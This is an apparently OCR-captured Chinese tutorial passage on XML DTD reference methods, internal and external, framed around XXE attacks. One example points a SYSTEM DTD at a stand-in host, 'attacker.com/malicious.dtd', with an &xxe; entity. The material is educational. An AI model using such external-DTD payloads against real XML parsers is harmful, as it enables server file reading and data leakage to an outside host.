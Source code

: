    ​

### DTD的引用方式

#### 一、内部DTD（内联DTD）

**定义**：直接嵌入在XML文档内部的DTD

**语法**：

```
<!DOCTYPE 根元素名 [
  <!ENTITY 实体名 "实体值">
  <!-- 其他声明 -->
]>
```

**示例**：

```
<!DOCTYPE note [
  <!ENTITY author "John Doe">
  <!ENTITY company "ACME Inc">
]>
<note>
  <from>&author;</from>
  <company>&company;</company>
</note>
```

**特点**：

- 直接写在XML文档内部
- 适用于简单的实体定义
- XXE攻击中常用于直接文件读取

#### 二、外部DTD引用

##### 1. 系统标识符引用

**语法**：

```
<!DOCTYPE 根元素名 SYSTEM "DTD文件URI">
```

**示例**：

```
<!DOCTYPE data SYSTEM "http://attacker.com/malicious.dtd">
<data>&xxe;</data>
```

##### 2. 公共标识符引用（较少使用）

**语法**：

```
<!DOCTYPE 根元素名 PUBLIC "公共标识符" "DTD文件URI">
```
